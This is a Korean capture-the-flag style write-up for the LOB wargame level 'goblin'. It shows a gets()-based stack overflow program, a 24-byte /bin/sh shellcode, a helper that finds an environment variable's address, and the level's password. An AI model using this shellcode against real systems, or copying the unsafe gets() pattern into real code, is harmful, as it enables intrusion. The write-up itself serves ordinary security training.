 ```yaml
---
title: "[LOB]Level03. goblin"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180828
modify_date: 2018-08-28
article_header:
  type: cover
  image:
    src: 

---
```


## keyword : small buffer + stdin

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```



------

### 0x01. Static Analysis



앞서 문제 cobolt와 다른점은 cobolt에서는 main함수의 argv로 입력값을 받았다면, 지금 문제는 gets를 이용하여 문제를 받는다. 따라서 값을 넘겨주는 방식의 차이만 있을 뿐 앞 문제와 풀이 과정은 동일하다.



------

### 0x02. Dynamic Analysis & Exploit



cobolt 문제와 동일하게 환경변수에 쉘코드를 넣고 문제를 풀어보자.



```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135809460.png" width="700px">

EUNICE 환경변수에 NOP슬라이드와 쉘코드를 넣는다.



```c
//env.c
main(){
    printf("%08x\n", getenv("EUNICE") );
}
```

EUNICE 환경변수의 주소를 구하는 프로그램을 만들어서



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135852712.png" width="400px">

EUNICE환경변수의 주소를 구해온다. (0xbffffc33)



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135928174.png" width="600px">



**goblin / hackers proof**